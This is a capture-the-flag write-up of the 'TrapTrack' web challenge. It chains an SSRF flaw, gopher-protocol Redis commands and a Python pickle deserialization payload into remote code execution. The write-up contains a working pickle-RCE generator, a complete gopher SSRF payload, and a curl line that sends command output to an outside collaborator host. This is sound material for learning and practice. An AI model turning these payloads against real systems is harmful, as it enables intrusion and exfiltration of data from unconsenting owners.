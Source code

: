 ## Web - TrapTrack (hard)
> The aliens have prepared several trap websites to spread their propaganda campaigns on the internet. Our intergalactic forensics team has recovered an artifact of their health check portal that keeps track of their trap websites. Can you take a look and see if you can infiltrate their system?
>  Readme Author: [mukarramkhalid](https://mukarramkhalid.com/hack-the-box-cyber-apocalypse-2023-the-cursed-mission-writeups)
>
> I COULDN'T GET THE ZIP. DON'T TRY TO DOWNLOAD
> [`web_traptrack.zip`](web_traptrack.zip)

We have the source code of a Python based application. It has a login page.

![](image-20230321234217392.png)

The username and the password is hardcoded in the source code as admin/admin.

![](image-20230321235341116.png)

Once we login, we see a feature to add trap tracks.

![](image-20230321235353707.png)

![](image-20230321235646513.png)

If we create a trap with our Burp Collaborator URL, we get a hit.

![](image-20230321235728561.png)
```
POST /api/tracks/add HTTP/1.1
Host: 188.166.152.84:31756
Content-Length: 94
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://188.166.152.84:31756
Referer: http://188.166.152.84:31756/admin/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=12d5ff67-0645-4c55-be8e-e6bdc9165655
Connection: close
 
{"trapName":"My Collaborator","trapURL":"http://4typ15s7l146txnax1f393qds4yvmmab.oastify.com"}
```
![](image-20230321235819941.png)

So there's an SSRF vulnerability here. We also see from the Dockerfile that there's Redis running internally on the default port 6379.

We can use the SSRF to issue commands to redis using gopher protocol. This article explains the attack really well.

Redis accepts text based communication in the following format.

![](07PoLH8DEMwNKqNhV.png)

We see that the application uses Redis to handle background queue jobs.

In cache.py, the application pulls a job from the redis queue, base64 decodes it, and then uses pickle.loads() on it. This can lead to python deserialization attack.

![](image-20230324002852716.png)

So the attack path is that we use the SSRF exploit to issue a SET command to Redis to put our base64 encoded pickled payload in the job queue, and when the application loads it, it will trigger RCE.

We need to set the payload in a hash type key jobs so we actually need to use HSET instead of SET, and a better way to do it would be to update the value of an existing job.

If we run the challenge docker locally, we see that there will always be an existing job at key 100 in Redis.
```
127.0.0.1:6379> KEYS *
1) "jobqueue"
2) "jobs"
3) "100"
127.0.0.1:6379> TYPE jobs
hash
127.0.0.1:6379> HGET jobs 100
"gASVeAAAAAAAAAB9lCiMBmpvYl9pZJRLZIwJdHJhcF9uYW1llIwJV2lraXBlZGlhlIwIdHJhcF91cmyUjBpodHRwczovL3d3dy53aWtpcGVkaWEub3JnL5SMCWNvbXBsZXRlZJRLAIwKaW5wcm9ncmVzc5RLAIwGaGVhbHRolEsAdS4="
```
We can use HSET to update the value of this job.
```
HSET jobs 100 VALUE_HERE
```
For the base64 encoded pickle payload, we can use this script.
```
#!/usr/bin/python3
 
import pickle
import base64
 
class PickleRCE(object):
    def __reduce__(self):
        import os
        return (os.system,(command,))
 
# Send flag to our burp collaborator 
command = 'curl -X POST "gn71vhmjfdyin9hmrd9f3fkpmgs7gz4o.oastify.com" --data `/readflag`'
 
payload = base64.b64encode(pickle.dumps(PickleRCE()))
print(payload)
print(len(payload))
```
Let's try to create a gopher payload for the HSET command.
```
gopher://127.0.0.1:6379/_%0D
%0D%0A  <-- \r\n
%2A4    <-- %2A is $ and there are total 4 arguments in our command
%0D%0A  <-- \r\n
%244    <-- %2A is $ and 4 is the length of HSET
%0D%0A  <-- \r\n
HSET    <-- HSET
%0D%0A  <-- \r\n
%244    <-- %2A is $ and 4 is the length of "jobs"
%0D%0A  <-- \r\n
jobs    <-- jobs
%0D%0A  <-- \r\n
%243    <-- $ and 3 is the length of "100"
%0D%0A  <-- \r\n
100     <-- 100 is the job id
%0D%0A  <-- \r\n
%24156  <-- $ and 156 is the length of our payload
%0D%0A  <-- \r\n
gASVaQAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjE5jdXJsIC1YIFBPU1QgImduNzF2aG1qZmR5aW45aG1yZDlmM2ZrcG1nczdnejRvLm9hc3RpZnkuY29tIiAtLWRhdGEgYC9yZWFkZmxhZ2CUhZRSlC4= <-- base64 encoded payload
%0D%0A  <-- \r\n
```
This is what the final SSRF payload looks like.
```
gopher://127.0.0.1:6379/_%0D%0D%0A%2A4%0D%0A%244%0D%0AHSET%0D%0A%244%0D%0Ajobs%0D%0A%243%0D%0A100%0D%0A%24156%0D%0AgASVaQAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjE5jdXJsIC1YIFBPU1QgImduNzF2aG1qZmR5aW45aG1yZDlmM2ZrcG1nczdnejRvLm9hc3RpZnkuY29tIiAtLWRhdGEgYC9yZWFkZmxhZ2CUhZRSlC4=%0D%0A
```
Let's give it a try.

We add the trap track with our SSRF payload.

![](image-20230324002137541.png)

After that, if we refresh the trap list page, we get the flag on our Burp Collaborator.

![](image-20230322020020262.png)

## Flag
HTB{tr4p_qu3u3d_t0_rc3!}